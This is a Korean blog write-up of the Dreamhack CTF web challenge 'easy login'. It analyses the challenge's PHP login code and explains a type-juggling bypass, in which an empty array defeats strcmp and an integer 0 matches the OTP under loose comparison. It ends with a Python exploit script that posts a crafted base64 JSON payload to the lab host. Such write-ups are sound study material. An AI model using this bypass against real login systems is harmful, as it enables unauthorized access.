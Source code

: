 ```yaml
---
layout: single
title: "[Dreamhack] easy login possible? write-up"
date: 2024-11-24 23:30 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] easy login

<br>

### 풀이

문제에 접속해보면 ID, PW, OTP를 입력하는 폼이 존재한다.

<img src="/images/2024-11-24-easy-login/image-20241124221037265.png" alt="image-20241124221037265" style="zoom:50%;" />

<br>

소스 코드를 살펴보면 index.php와 login.php가 존재한다. `/login.php`에 들어가보면 index.php로 리다이렉션 되는 것으로 보아 login.php에서는 동작만 수행하고 index로 리다이렉션 시켜주는 것 같다.

<img src="/images/2024-11-24-easy-login/image-20241124221317721.png" alt="image-20241124221317721" style="zoom:50%;" />

<br>

`generatePassword` 함수를 분석해보면 인자로 패스워드 길이를 받고 `characters` 변수에 16진수 문자열들을 저장하고 `strlen`을 통해 16 값을 `charactersLength` 에 저장하고 있다. 다음으로 pw를 초기화 한 후, 반복문을 통해 `random_int`라는 난수 생성기 함수로 `$characters`에서 무작위로 하나의 문자를 선택하기 위해 0부터 15까지 돌면서 `pw` 에 저장한 후 반환한다.

```php
function generatePassword($length) {
    $characters = '0123456789abcdef';
    $charactersLength = strlen($characters);
    $pw = '';
    for ($i = 0; $i < $length; $i++) {
        $pw .= $characters[random_int(0, $charactersLength - 1)];
    }
    return $pw;
}
```

<br>

`gernerateOTP` 함수를 보면 `random_int` 함수로 0부터 999999까지의 난수를 생성하고, `strval` 함수로 문자열 형태로 변경해준다. 다음으로 `strpad` 함수로 6자리의 패딩을 맞춰주는데 왼쪽부터 0으로 채워주고 맨 앞에 P를 합쳐서 예로 `P000123` 처럼 OTP를 생성한다.

```php
function generateOTP() {
    return 'P' . str_pad(strval(random_int(0, 999999)), 6, "0", STR_PAD_LEFT);
}
```

<br>

로그인 입력 폼을 찾아보면 POST 메소드로 `login.php`에 id, pw, otp 데이터를 전송하고, 아래에는 div 태그로 `login()` 함수가 동작한다.

```php+HTML
    <div class="login-container">
        <h2>Login as admin to get flag<h2>
        <form action="login.php" method="post">
            <div class="form-group">
                <label for="id">ID</label>
                <input type="text" name="id"></br>
            </div>
            <div class="form-group">
                <label for="pw">PW</label>
                <input type="text" name="pw"></br>
            </div>
            <div class="form-group">
                <label for="otp">OTP</label>
                <input type="text" name="otp"></br>
            </div>
            <button type="submit" class="button">Login</button>
        </form>
        <div class="message">
            <?php login(); ?>
        </div>
```

<br>

`login.php` 에서는 POST 메소드로 `index.php`로 데이터를 전송하고, php 코드를 살펴보면 a 변수에 배열을 초기화하고, `foreach` 반복문을 사용해서 이전에 제출한 POST 데이터 값을 $k와 $v에 키와 벨류 형태로 배열이 만들어진다. j 변수에는 만들어진 배열을 json 데이터로 변환하고 이를 cred의 value 값으로 base64인코딩하여 index.php에 전송된다. 그리고 아래 스크립트 코드로 id가 `redir`인 폼이 자동으로 제출되도록 스크립트 코드가 작성되어 있다.

```php+HTML
<form id="redir" action="index.php" method="post">
    <?php
    $a = array();
    foreach ($_POST as $k => $v) {
        $a[$k] = $v;
    }

    $j = json_encode($a);
    echo '<input type="hidden" name="cred" value="' . base64_encode($j) . '">';
    ?>
</form>

<script type="text/javascript">
    document.getElementById('redir').submit();
</script>
```

<br>

`index.php`에서 소스 코드를 더 보면 `admin_pw` 변수에 32자리의 패스워드를 생성하고, otp도 `generateOTP` 함수로 생성하여 값을 저장하고 있다. `login` 함수를 분석해보면 다음과 같다.

1. cred 값이 비어있으면 안됨
2. cred 값을 base64 인코딩해야 함
3. cred 값을 base64 인코딩전에 json 데이터 변환해야 함 
4. id, pw, otp 값이 비어있으면 안됨
5. id가 admin이 아니면 hello, id가 리턴됨
6. 입력한 OTP 값과 OTP 값이 일치하는지 확인
7. strcmp로 admin_pw와 입력한 pw를 비교

```php
$admin_pw = generatePassword(32);
$otp = generateOTP();

function login() {
    if (!isset($_POST['cred'])) {
        echo "Please login...";
        return;
    }

    if (!($cred = base64_decode($_POST['cred']))) {
        echo "Cred error";
        return;
    }

    if (!($cred = json_decode($cred, true))) {
        echo "Cred error";
        return;
    }

    if (!(isset($cred['id']) && isset($cred['pw']) && isset($cred['otp']))) {
        echo "Cred error";
        return;
    }

    if ($cred['id'] != 'admin') {
        echo "Hello," . $cred['id'];
        return;
    }
    
    if ($cred['otp'] != $GLOBALS['otp']) {
        echo "OTP fail";
        return;
    }

    if (!strcmp($cred['pw'], $GLOBALS['admin_pw'])) {
        require_once('flag.php');
        echo "Hello, admin! get the flag: " . $flag;
        return;
    }

    echo "Password fail";
    return;
}
```

<br>

이번 문제는 php 문제에서 거의 몇 번씩 나오는 strcmp와 != 비교에서 취약점을 찾아야한다. `strcmp` 함수의 경우 일치할 경우 0을 반환하고 틀릴 경우 1을 반환하게 되는데 여기서 값으로 빈 배열을 넣어주면 NULL이 되고 결국 NULL== 0이 되기 때문에 이를 우회할 수 있다. 또한 otp 같은 경우도 !=로 비교하지만 P로 시작하는 문자열을 0이라는 값과 비교하게 되면 비교하게 되는 문자열이 숫자형으로 변환되면서 0으로 변환된다. 따라서 0으로 값을 넣어주면 우회할 수 있다.

<br>

아래와 같이 페이로드를 작성해보면 id, pw, otp에 값을 넣어주고, 해당 값을 json으로 형변환하고, base64로 인코딩 해주어야 하기 때문에 `json.dumps()`로 형 변환해준 후 base64로 인코딩하기 위해 바이트로 변환하기 위해서 `encode()` 함수까지 해주었다. 그 뒤 `base64.b64encode` 로 해당 바이트를 base64로 변환하고 이를 문자열로 변환하기 위해 decode까지 수행하여  데이터를 보내면 된다.

```python
import requests
import json
import base64

url = "http://host3.dreamhack.games:8775/index.php"

payload = {
    "id": "admin",
    "pw": [],
    "otp": 0
}

data = {
    "cred": base64.b64encode(json.dumps(payload).encode()).decode()
}

response = requests.post(url, data=data)

print(response.text)
```

<br>

아래와 같이 flag를 잘 획득한 것을 볼 수 있다.

![image-20241125001604037](/images/2024-11-24-easy-login/image-20241125001604037.png)

